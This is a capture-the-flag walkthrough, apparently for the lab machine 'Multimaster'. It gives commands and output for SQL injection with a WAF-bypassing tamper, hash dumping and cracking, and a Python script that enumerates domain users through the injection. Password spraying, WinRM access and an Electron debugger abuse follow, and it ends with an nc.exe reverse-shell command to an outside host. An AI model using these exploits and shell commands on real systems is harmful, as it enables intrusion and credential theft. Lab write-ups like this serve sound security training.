

# Multimaster
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.179 --min-rate 10000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-08 19:46 BST
Nmap scan report for 10.10.10.179 (10.10.10.179)
Host is up (0.13s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
49666/tcp open  unknown
49667/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49678/tcp open  unknown
49698/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 45.14 seconds
```
```
└─$ nmap -Pn -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -sC -sV 10.10.10.179 --min-rate 10000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-08 19:46 BST
Nmap scan report for 10.10.10.179 (10.10.10.179)
Host is up (0.56s latency).

PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: 403 - Forbidden: Access is denied.
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-10-08 18:52:31Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL, Site: Default-First-Site-Name)
445/tcp  open               Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGACORP)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf       .NET Message Framing
Service Info: Host: MULTIMASTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h26m16s, deviation: 4h02m30s, median: 6m16s
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2023-10-08T18:52:41
|_  start_date: 2023-10-08T18:50:58
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: MULTIMASTER
|   NetBIOS computer name: MULTIMASTER\x00
|   Domain name: MEGACORP.LOCAL
|   Forest name: MEGACORP.LOCAL
|   FQDN: MULTIMASTER.MEGACORP.LOCAL
|_  System time: 2023-10-08T11:52:40-07:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.26 seconds
```

- `smb`
```
└─$ smbclient -N -L //10.10.10.179                            
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.179 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

- Web Server


- `gobuster`
  - `WAF` is probably blocking requests
```
└─$ gobuster dir -u http://10.10.10.179 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 50  -x asp,aspx,txt   
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.179
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              asp,aspx,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 150] [--> http://10.10.10.179/images/]
/contact.asp          (Status: 403) [Size: 1233]
/full.asp             (Status: 403) [Size: 1233]
/full.txt             (Status: 403) [Size: 1233]
/full                 (Status: 403) [Size: 1233]
/12.asp               (Status: 403) [Size: 1233]
/2006                 (Status: 403) [Size: 1233]
/12.aspx              (Status: 403) [Size: 1233]
/full.aspx            (Status: 403) [Size: 1233]
...
```

## Foothold
- We have bunch of potential usernames


- Let's open `Burp` and test for `sqli`
  - If send special char, I receive `403`
  - I also tested for `nosqli`, but received `500`


- Let's fuzz for special chars
```
└─$ wfuzz -c -u http://10.10.10.179/api/getColleagues -w /usr/share/seclists/Fuzzing/special-chars.txt -d '{"name":"FUZZ"}' -H 'Content-Type: application/json;charset=utf-8'     
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.179/api/getColleagues
Total requests: 32

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000001:   200        0 L      1 W        2 Ch        "~"
000000029:   403        29 L     92 W       1233 Ch     "'"
000000028:   403        29 L     92 W       1233 Ch     ":"
000000032:   403        29 L     92 W       1233 Ch     ">"
000000030:   403        29 L     92 W       1233 Ch     """
000000003:   200        0 L      1 W        2 Ch        "@"
000000015:   200        0 L      1 W        2 Ch        "="
000000007:   200        0 L      1 W        2 Ch        "^"
000000031:   200        0 L      1 W        2 Ch        "<"
000000014:   200        0 L      1 W        2 Ch        "+"
000000027:   200        0 L      1 W        2 Ch        ";"
000000026:   200        0 L      1 W        2 Ch        "?"
000000025:   200        0 L      1 W        2 Ch        "/"
000000024:   200        0 L      1 W        2 Ch        "."
000000023:   200        0 L      1 W        2 Ch        ","
000000022:   200        0 L      1 W        2 Ch        "`"
000000021:   500        0 L      4 W        36 Ch       "\"
000000018:   200        0 L      1 W        2 Ch        "]"
000000006:   403        29 L     92 W       1233 Ch     "%"
000000019:   200        0 L      1 W        2 Ch        "["
000000017:   200        0 L      1 W        2 Ch        "}"
000000016:   200        0 L      1 W        2 Ch        "{"
000000013:   200        0 L      33 W       1821 Ch     "_"
000000011:   200        0 L      1 W        2 Ch        ")"
000000010:   200        0 L      1 W        2 Ch        "("
000000009:   200        0 L      1 W        2 Ch        "*"
000000020:   200        0 L      1 W        2 Ch        "|"
000000012:   200        0 L      1 W        2 Ch        "-"
000000004:   403        29 L     92 W       1233 Ch     "#"
000000008:   403        29 L     92 W       1233 Ch     "&"
000000002:   200        0 L      1 W        2 Ch        "!"
000000005:   403        29 L     92 W       1233 Ch     "$"

Total time: 0
Processed Requests: 32
Filtered Requests: 0
Requests/sec.: 0
```

- If we set `-t` to `1`, we receive other results
```
└─$ wfuzz -c -u http://10.10.10.179/api/getColleagues -w /usr/share/seclists/Fuzzing/special-chars.txt -d '{"name":"FUZZ"}' -H 'Content-Type: application/json;charset=utf-8' -t 1 --hc 200
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.179/api/getColleagues
Total requests: 32

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000004:   403        29 L     92 W       1233 Ch     "#"
000000021:   500        0 L      4 W        36 Ch       "\"
000000030:   500        0 L      4 W        36 Ch       """
000000029:   403        29 L     92 W       1233 Ch     "'"
000000031:   403        29 L     92 W       1233 Ch     "<"
000000032:   403        29 L     92 W       1233 Ch     ">"

Total time: 0
Processed Requests: 32
Filtered Requests: 26
Requests/sec.: 0
```

- If we take a closer look and `Content-Type` we see `application/json;charset=utf-8`
  - I have never seen it before
  - It means that `the content to be in JSON format, encoded in the UTF-8 character encoding.`
    - https://stackoverflow.com/questions/9254891/what-does-content-type-application-json-charset-utf-8-really-mean
  - So if we send `\u27`, which is ASCII value of `'`, we receive `500``
  - Possibly indicating that there's an `sqli` 


- Let's use `sqlmap`
  - I assume the `dbms` is `mssql`
  - Let's start with a lighter query
  - In case I don't have anything, I'll run `sqlmap` with different parameters

```
└─$ sqlmap -r sqli.req --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch --dbms=mssql
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.7.9#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:34:33 /2023-10-13/

[14:34:33] [INFO] parsing HTTP request from 'sqli.req'
[14:34:33] [INFO] loading tamper module 'charunicodeescape'
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[14:34:33] [INFO] testing connection to the target URL
...
(custom) POST parameter 'JSON name' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 466 HTTP(s) requests:
---
Parameter: JSON name ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: {"name":"\u27' OR NOT 5590=5590-- bkOY"}

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: {"name":"\u27';WAITFOR DELAY '0:0:5'--"}

    Type: time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: {"name":"\u27' WAITFOR DELAY '0:0:5'-- Wvdt"}

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: {"name":"test' UNION ALL SELECT 58,58,58,CHAR(113)+CHAR(112)+CHAR(122)+CHAR(107)+CHAR(113)+CHAR(68)+CHAR(105)+CHAR(69)+CHAR(119)+CHAR(71)+CHAR(98)+CHAR(76)+CHAR(83)+CHAR(102)+CHAR(68)+CHAR(114)+CHAR(73)+CHAR(109)+CHAR(73)+CH
AR(98)+CHAR(101)+CHAR(116)+CHAR(99)+CHAR(70)+CHAR(80)+CHAR(103)+CHAR(101)+CHAR(86)+CHAR(113)+CHAR(73)+CHAR(82)+CHAR(103)+CHAR(90)+CHAR(115)+CHAR(114)+CHAR(76)+CHAR(73)+CHAR(77)+CHAR(105)+CHAR(103)+CHAR(73)+CHAR(71)+CHAR(67)+CHAR(83)+CHAR
(111)+CHAR(113)+CHAR(98)+CHAR(120)+CHAR(98)+CHAR(113),58-- gxQm"}
---
[15:57:00] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[15:57:00] [INFO] testing Microsoft SQL Server
[15:57:05] [INFO] confirming Microsoft SQL Server
[15:57:27] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 10 or 2022 or 2016 or 11 or 2019
web application technology: ASP.NET, ASP.NET 4.0.30319, Microsoft IIS 10.0
back-end DBMS: Microsoft SQL Server 2017
[15:57:27] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 2 times
[15:57:27] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.10.179'

[*] ending @ 15:57:27 /2023-10-13/

```

- Let's dump the databases
```
└─$ sqlmap -r sqli.req --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch --dbms=mssql --dbs
...
[17:13:49] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
available databases [4]:
[*] Hub_DB
[*] [master]
[*] model
[*] msdb
[*] tempdb
```
```
└─$ sqlmap -r sqli.req --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch --dbms=mssql --exclude-sysdbs --dump-all
...
Database: Hub_DB                                           
Table: Colleagues                                          
[17 entries]                                               
+------+----------------------+-------------+----------------------+----------------------+
| id   | email                | image       | name                 | position             |
+------+----------------------+-------------+----------------------+----------------------+
| 1    | sbauer@megacorp.htb  | sbauer.jpg  | Sarina Bauer         | Junior Developer     |
| 2    | okent@megacorp.htb   | okent.jpg   | Octavia Kent         | Senior Consultant    |
| 3    | ckane@megacorp.htb   | ckane.jpg   | Christian Kane       | Assistant Manager    |
| 4    | kpage@megacorp.htb   | kpage.jpg   | Kimberly Page        | Financial Analyst    |
| 5    | shayna@megacorp.htb  | shayna.jpg  | Shayna Stafford      | HR Manager           |
| 6    | james@megacorp.htb   | james.jpg   | James Houston        | QA Lead              |
| 7    | cyork@megacorp.htb   | cyork.jpg   | Connor York          | Web Developer        |
| 8    | rmartin@megacorp.htb | rmartin.jpg | Reya Martin          | Tech Support         |
| 9    | zac@magacorp.htb     | zac.jpg     | Zac Curtis           | Junior Analyst       |
| 10   | jorden@megacorp.htb  | jorden.jpg  | Jorden Mclean        | Full-Stack Developer |
| 11   | alyx@megacorp.htb    | alyx.jpg    | Alyx Walters         | Automation Engineer  |
| 12   | ilee@megacorp.htb    | ilee.jpg    | Ian Lee              | Internal Auditor     |
| 13   | nbourne@megacorp.htb | nbourne.jpg | Nikola Bourne        | Head of Accounts     |
| 14   | zpowers@megacorp.htb | zpowers.jpg | Zachery Powers       | Credit Analyst       |
| 15   | aldom@megacorp.htb   | aldom.jpg   | Alessandro Dominguez | Senior Web Developer |
| 16   | minato@megacorp.htb  | minato.jpg  | MinatoTW             | CEO                  |
| 17   | egre55@megacorp.htb  | egre55.jpg  | egre55               | CEO                  |
+------+----------------------+-------------+----------------------+----------------------+
...
Database: Hub_DB 
Table: Logins                                              
[17 entries]
+------+----------+--------------------------------------------------------------------------------------------------+
| id   | username | password                                                                                         |
+------+----------+--------------------------------------------------------------------------------------------------+
| 1    | sbauer   | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
| 2    | okent    | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa |
| 3    | ckane    | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
| 4    | kpage    | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
| 5    | shayna   | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
| 6    | james    | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
| 7    | cyork    | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
| 8    | rmartin  | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa |
| 9    | zac      | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
| 10   | jorden   | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
| 11   | alyx     | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa |
| 12   | ilee     | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
| 13   | nbourne  | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa |
| 14   | zpowers  | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
| 15   | aldom    | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
| 16   | minatotw | cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc |
| 17   | egre55   | cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc |
+------+----------+--------------------------------------------------------------------------------------------------+
...
```

- Let's crack the hashes
```
└─$ hashcat -m 17900 hash /usr/share/wordlists/rockyou.txt --force 
hashcat (v6.2.6) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.
...

9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739:password1
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813:finance1
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa:banking1
...
```

- Looks like we have following creds
```
password1 - sbauer, shayna, james, cyork, jorden, aldom
finance1 - ckane, kpage, zac, ilee, zpowers
banking1 - okent, rmartin, alyx, nbourne
```

- Testing for validity of the accounts shows nothing
```
└─$ crackmapexec smb 10.10.10.179 -u users.list -p passwords.list 
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\sbauer:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\sbauer:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\sbauer:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\okent:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\okent:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\okent:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\ckane:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\ckane:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\ckane:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\kpage:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\kpage:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\kpage:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\shayna:password1 STATUS_LOGON_FAILURE
...
```

- There is a way for us to dump domain users
  - https://keramas.github.io/2020/03/22/mssql-ad-enumeration.html
  - https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/
  - Below is the script that does that
  - But before that we have to know:
    - The name of the domain: `MEGACORP.LOCAL` or `default_domain()`
    - `SID` of the domain using `select sys.fn_varbintohexstr(SUSER_SID('MEGACORP.LOCAL\Administrator'))`
    - Then we bruteforce `RID`s to get `AD` users
  - We will use the payload from the `sqlmap`
    - `test' UNION ALL SELECT 58,58,58,{},58-- -`
  - The response will be in the form of `[{"id":58,"name":"58","position":"58","email":"","src":"58"}]`
    - Where `email` will contain the result of the query
```
import sys
import time
import struct
import binascii
import requests

URL = "http://10.10.10.179/api/getColleagues"
HEADERS = {"Content-Type": "application/json;charset=utf-8"}
PAYLOAD = """test' UNION ALL SELECT 58,58,58,{},58-- -"""
PROXY = {"http": "http://127.0.0.1:8080"}

def unicode_convert(data):
	payload = ""
	
	for char in data:
		payload += r"\u{:04x}".format(ord(char))
	return payload

def perform_query(query):

	data = '{"name":"' + unicode_convert(PAYLOAD.format(query)) + '"}'
	r = requests.post(URL, headers = HEADERS, data = data, proxies = PROXY)
	
	return r.json()[0]["email"]

def bruteforce(sid):
	for i in range(500, 5000):
		rid = binascii.hexlify(struct.pack("<I", i)).decode()
		query = f"SUSER_SNAME({sid}{rid})"	
		user = perform_query(query)
    if user:
		  print(f"[+] User: {user}")
		time.sleep(10)
	return 0

if __name__ == "__main__":
	
	print("[*] Gathering required information for attack")
	print("[*] Step 1: Domain name")
	domain = perform_query("DEFAULT_DOMAIN()")
	print(f"[+] Domain name: {domain}")
	
	print("[*] Step 2: Domain SID")
	sid = perform_query(f"sys.fn_varbintohexstr(SUSER_SID('{domain}\Administrator'))")[:-8]
	print(f"[+] Domain SID: {sid}")

	print(f"[*] Starting domain user bruteforce for {domain} domain: {sid}")
	bruteforce(sid)
	
	print()

```

- The script will take more
```
└─$ python3 mssql-domain-user-bruteforcer.py
[*] Gathering required information for attack
[*] Step 1: Domain name
[+] Domain name: MEGACORP
[*] Step 2: Domain SID
[+] Domain SID: 0x0105000000000005150000001c00d1bcd181f1492bdfc236
[*] Starting domain user bruteforce for MEGACORP domain: 0x0105000000000005150000001c00d1bcd181f1492bdfc236
[+] User: MEGACORP\Administrator                              
[+] User: MEGACORP\Guest                              
[+] User: MEGACORP\krbtgt                              
[+] User: MEGACORP\DefaultAccount                              
[+] User: MEGACORP\Domain Admins                              
[+] User: MEGACORP\Domain Users                              
[+] User: MEGACORP\Domain Guests                              
[+] User: MEGACORP\Domain Computers                              
[+] User: MEGACORP\Domain Controllers                              
[+] User: MEGACORP\Cert Publishers                              
[+] User: MEGACORP\Schema Admins                              
[+] User: MEGACORP\Enterprise Admins                              
[+] User: MEGACORP\Group Policy Creator Owners                              
[+] User: MEGACORP\Read-only Domain Controllers                              
[+] User: MEGACORP\Cloneable Domain Controllers                              
[+] User: MEGACORP\Protected Users                              
[+] User: MEGACORP\Key Admins                              
[+] User: MEGACORP\Enterprise Key Admins                              
[+] User: MEGACORP\RAS and IAS Servers                              
[+] User: MEGACORP\Allowed RODC Password Replication Group                              
[+] User: MEGACORP\Denied RODC Password Replication Group                              
[+] User: MEGACORP\MULTIMASTER$                              
[+] User: MEGACORP\DnsAdmins                              
[+] User: MEGACORP\DnsUpdateProxy                              
[+] User: MEGACORP\svc-nas                              
[+] User: MEGACORP\Privileged IT Accounts                              
[+] User: MEGACORP\tushikikatomo                              
[+] User: MEGACORP\andrew                              
[+] User: MEGACORP\lana                               
[+] User: MEGACORP\alice                              
[+] User: MEGACORP\test                               
[+] User: MEGACORP\dai                                
[+] User: MEGACORP\svc-sql                              
[+] User: MEGACORP\SQLServer2005SQLBrowserUser$MULTIMASTER                              
[+] User: MEGACORP\sbauer                              
[+] User: MEGACORP\okent                              
[+] User: MEGACORP\ckane                              
[+] User: MEGACORP\kpage                              
[+] User: MEGACORP\james                              
[+] User: MEGACORP\cyork                              
[+] User: MEGACORP\rmartin                              
[+] User: MEGACORP\zac                                
[+] User: MEGACORP\jorden                              
[+] User: MEGACORP\alyx                               
[+] User: MEGACORP\ilee                               
[+] User: MEGACORP\nbourne                              
[+] User: MEGACORP\zpowers                              
[+] User: MEGACORP\aldom                              
[+] User: MEGACORP\jsmmons                              
[+] User: MEGACORP\pmartin                              
[+] User: MEGACORP\Developers
```

- Now when we check with `crackmapexec` we have a hit
```
└─$ crackmapexec smb 10.10.10.179 -u users.list -p passwords.list
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\svc-nas:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\svc-nas:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\svc-nas:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\Privileged:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\Privileged:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\Privileged:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\tushikikatomo:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP.LOCAL\tushikikatomo:finance1 
...
```

- And `tushikikatomo` has right to `winrm`
```
└─$ evil-winrm -u "MEGACORP\tushikikatomo" -p finance1 -i 10.10.10.179
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\alcibiades\Documents>
```


## User #1
- If we enumerate, we see `Code` application
```
*Evil-WinRM* PS C:\Users\alcibiades\Documents> get-process

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    413      22    13884       9552               264   1 Code
    404      54    96576     114656              1672   1 Code
    404      53    96584      53792              2052   1 Code
    278      53    45172      61420              2412   1 Code
    277      51    58304      61732              2644   1 Code
    658      48    33332      71980              3328   1 Code
    407      56   135720     170088              5228   1 Code
    214      15     6144       4192              5296   1 Code
    276      51    58184      23668              5672   1 Code
    318      31    39936      28428              6008   1 Code
    355      13     1872       4248               368   0 csrss
...
```
```
*Evil-WinRM* PS C:\program files> ls


    Directory: C:\program files


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/25/2019  10:59 AM                Common Files
d-----         1/9/2020   2:39 PM                Internet Explorer
d-----         1/7/2020   9:40 PM                Microsoft
da----         1/7/2020   7:47 PM                Microsoft SQL Server
d-----         1/7/2020   7:26 PM                Microsoft Visual Studio 10.0
da----         1/9/2020   3:18 AM                Microsoft VS Code
d-----         1/7/2020   7:27 PM                Microsoft.NET
d-----         1/7/2020   9:43 PM                Reference Assemblies
d-----        7/19/2021   1:07 AM                VMware
d-r---         1/9/2020   2:46 PM                Windows Defender
d-----         1/9/2020   2:39 PM                Windows Mail
d-----         1/9/2020   2:39 PM                Windows Media Player
d-----        7/16/2016   6:23 AM                Windows Multimedia Platform
d-----        7/16/2016   6:23 AM                Windows NT
d-----         1/9/2020   2:39 PM                Windows Photo Viewer
d-----        7/16/2016   6:23 AM                Windows Portable Devices
d-----        7/16/2016   6:23 AM                WindowsPowerShell
```

- We have a pretty old `Visual Studio` running
  - There was a lot of googling, but essentially
    - `Visual Studio` is built on `Electron`
    - And `Electron` leaves `debugger` enabled
  - We can check for existense of debugger sockets
    - https://github.com/taviso/cefdebug
```
*Evil-WinRM* PS C:\windows\system32\spool\drivers\color> .\cefdebug.exe
cefdebug.exe : [2023/10/15 04:04:15:3788] U: There are 6 tcp sockets in state listen.
    + CategoryInfo          : NotSpecified: ([2023/10/15 04:...n state listen.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[2023/10/15 04:04:35:4556] U: There were 4 servers that appear to be CEF debuggers.
[2023/10/15 04:04:35:4556] U: ws://127.0.0.1:46429/82d09d60-7b67-4d29-82ac-4bbef694e26b
[2023/10/15 04:04:35:4556] U: ws://127.0.0.1:51469/864bcab8-5e95-4dc3-99c8-48ccf8669bcd
[2023/10/15 04:04:35:4556] U: ws://127.0.0.1:17095/7f4e7f80-a560-4708-a031-b8b1b22f688f
[2023/10/15 04:04:35:4556] U: ws://127.0.0.1:6279/da22c63e-5b04-4cea-8e4a-a5c535aaaa9e
```

- We can check version 
  - Note, sockets last few seconds, so we have to run `.exe` without args to find the sockets
```
*Evil-WinRM* PS C:\windows\system32\spool\drivers\color> .\cefdebug.exe --code "process.version" --url ws://127.0.0.1:29638/05b95af9-71ae-40e9-a8a4-43b90f07fda5
cefdebug.exe : [2023/10/15 04:09:38:1024] U: >>> process.version
    + CategoryInfo          : NotSpecified: ([2023/10/15 04:...process.version:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[2023/10/15 04:09:38:1024] U: <<< v10.11.0
```

- Let's get reverse shell
```
*Evil-WinRM* PS C:\programdata> .\cefdebug.exe --code "process.mainModule.require('child_process').exec('C:\\programdata\\nc.exe 10.10.16.9 443 -e cmd.exe')" --url ws://127.0.0.1:56407/8c993c24-1acd-45e5-a87e-0131fef41a87
